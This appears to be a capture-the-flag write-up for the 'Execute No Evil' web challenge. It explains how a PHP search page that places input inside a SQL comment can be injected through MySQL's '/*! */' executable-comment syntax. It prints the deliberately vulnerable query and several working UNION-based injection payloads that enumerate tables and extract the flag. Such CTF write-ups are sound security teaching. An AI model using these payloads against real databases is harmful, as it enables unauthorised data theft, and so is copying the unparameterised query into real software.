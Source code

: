 
# Execute No Evil

 > (1) New Message: "Hey dude. So we have this database system at work and I
 > just found an SQL injection point. I quickly fixed it by commenting out all
 > the user input in the query. Don't worry, I made the query so that it
 > responds with boss's profile, since he is kind of the only person actively
 > using this database system, and he always looks up his own name, lol. Anyway,
 > guess we'll go with this til' the sysadmin comes and fixes the issue."

 ![Challenge Description](screenshot.png)

| Asset        | Note                                                          |
|--------------|---------------------------------------------------------------|
| Author       | Milkdrop                                                      |
| Category     | Web Exploitation                                              |
| Original URL | `http://challs.xmas.htsp.ro:11002`                            |
|      Dump    | 💾 [Files](./files)                                           |

![Screenshot](screenshot-site.png)

## Analysis

Looking at the HTML you'll see it's not much but a GET parameter called `name`:

```
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
```

Looking closer we can also get the PHP source code by passing `?source=1` to
the page:

```
<!-- ?source=1 -->
```

Looking at the source we see there is an SQL injection vector:

```
$name = str_replace ("*", "", $name);
$records = mysqli_query ($conn, "SELECT * FROM users WHERE name=/*" . $name . "*/ 'Geronimo'", MYSQLI_USE_RESULT); // Don't tell boss
```

## Exploitation

A basic rule of thumb is that if something takes user input and isn't using a
prepared statement it probably can be exploited in some way. This takes user
input and it doesn't use SQL prepared statements.

However, it does have a comment and it "guards" against using the `*` character
to easily end the comment. The problem is that MySQL has a very stupid feature
where the contents of a comment are actually executable, as described in the
[Comment Syntax][1] in the MySQL documentation:

>  MySQL Server supports certain variants of C-style comments. These enable you to
write code that includes MySQL extensions, but is still portable, by using
comments of the following form:
>
> /\*! MySQL-specific code \*/

Yes. It really be like that. This means we can execute SQL by simply starting
our query with an `!`. We have to juggle the query such that it ends with the
string `'Geronimo'`, but otherwise we have full injection. In terms of data
output we have two parameters:

```
while ($row = mysqli_fetch_array ($records, MYSQLI_ASSOC)) {
    echo '<tr>
        <td>',$row["name"],'</td>
        <td>',$row["description"],'</td>
    </tr>';
}
```

First we find out what database we are in:

```
! 'admin' or 1 UNION SELECT name, description,(select DATABASE() from DUAL) FROM users WHERE 1 or name=
```

This shows we are in the `ctf` database:

![Database is ctf](screenshot-db.png)

We can do the same thing now looking for tables:

```
! 'admin' or 1 UNION SELECT name, description,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='ctf' limit 1,1) FROM users WHERE 1 or name=
```

This shows we have a table called `flag`:

![flag is a table](screenshot-tables.png)

Now let's look for the column name:

```
! 'admin' or 1 UNION SELECT name, description,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_SCHEMA='ctf' AND TABLE_NAME='flag' limit 1) FROM users WHERE 1 or name=
```

This shows there is a column named `whatsthis`:

![flag is a table](screenshot-column.png)

Lastly we can grab the flag:

```
! 'admin' or 1 UNION SELECT name, description,(select whatsthis from flag limit 1) FROM users WHERE 1 or name=
```

![select the flag](screenshot-flag.png)

[1]: https://dev.mysql.com/doc/refman/5.7/en/comments.html
